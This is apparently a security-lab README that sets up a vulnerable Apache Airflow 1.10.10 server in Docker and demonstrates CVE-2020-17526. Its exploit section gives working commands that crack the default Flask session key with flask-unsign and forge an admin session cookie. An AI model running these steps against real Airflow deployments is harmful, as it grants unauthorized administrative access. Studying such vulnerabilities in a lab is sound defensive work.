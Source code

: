 # Apache Airflow Authentication Bypass (CVE-2020-17526)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Airflow is an open source, distributed task scheduling framework. Although authentication is not required by default, but the administration can specify the `webserver.authenticate=True` to enable it.

In the version prior to 1.10.13, Apache Airflow uses a default session secert key, which leads to impersonate arbitrary user when authentication is enabled.

References:

- <https://lists.apache.org/thread/rxn1y1f9fco3w983vk80ps6l32rzm6t0>
- <https://kloudle.com/academy/authentication-bypass-in-apache-airflow-cve-2020-17526-and-aws-cloud-platform-compromise>

## Vulnerability Environment

Execute the following commands to start an airflow 1.10.10 server:

```bash
#Initialize the database
docker compose run airflow-init

#Start service
docker compose up -d
```

After the server is started, browse the `http://your-ip:8080` to see the login page of Apache Airflow. Yes, this server required authentication.

## Exploit

Firstly, browse the login page and get a session string from Cookie:

```
curl -v http://localhost:8080/admin/airflow/login
```

![](1.png)

Then, use [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) to crack the session key:

```
flask-unsign -u -c [session from Cookie]
```

![](2.png)

Bingo, we got the valid session key `temporary_key`. Then, use this key to generate a new session whose `user_id` equals to `1`:

```
flask-unsign -s --secret temporary_key -c "{'user_id': '1', '_fresh': False, '_permanent': True}"
```

![](3.png)

Finally, use this generated session to log in successfully:

![](4.png)
